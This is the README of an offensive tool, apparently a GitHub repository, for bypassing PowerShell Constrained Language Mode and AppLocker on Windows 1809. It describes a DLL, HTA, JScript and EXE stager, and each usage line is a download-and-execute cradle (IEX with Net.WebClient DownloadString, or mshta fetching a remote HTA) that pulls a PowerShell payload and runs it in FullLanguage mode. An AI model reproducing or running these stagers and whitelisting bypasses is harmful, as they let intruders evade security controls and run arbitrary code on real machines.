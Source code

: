 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article. Also comes with a stager in case AppLocker is being used, used [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [the mshta.exe AWL bypass](https://blog.conscioushacker.io/index.php/2017/11/17/application-whitelisting-bypass-mshta-exe/).

### key
- **[A]** denotes applocker bypass for 1809
- **[C]** denots Constrained Language Mode bypass for 1809

<hr></hr>

### CLMBypass.dll [A][C]
- Using the DllExport library and properly formatted functions, it is possible to exeucte DLLs with `rundll32.exe` and .NET Framework support, which allows the use of `System.Managment.Automation`
- **Usage:** `rundll32.exe CLMBypass.dll,Run IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1');`

### CLMBypass.hta [A][C]
- The WScript.Shell creates a new runspace
- `payload.ps1` is downloaded and executed in FullLanguage mode
- **Usage:** mshta.exe http://localhost/CLMBypass.hta`

### CLMBypass.js [A][C]
- Realized this is redundant... the hta execution already creates another runspace with FullLanguage mode. Leaving it here just in case.
- **Usage:** On Line 131 you can add something like `o.Main("IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')");`
- when the page is loaded, this will execute. If you use DotNetToJScript on your own, the functions and classes *must be public* and the class must have the `[ComVisible(true)]` tag (see Program.cs for an example).

### CLMBypass.exe [C]
- Compiled as PE32 .NET Framework 4.0
- **Usage:** `.\CLMBypass.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"`

### Program.cs
- C# source code for CLMBypass.dll, a little outdated for the PE

### payload.ps1
- payload to be run in FullLanguage mode
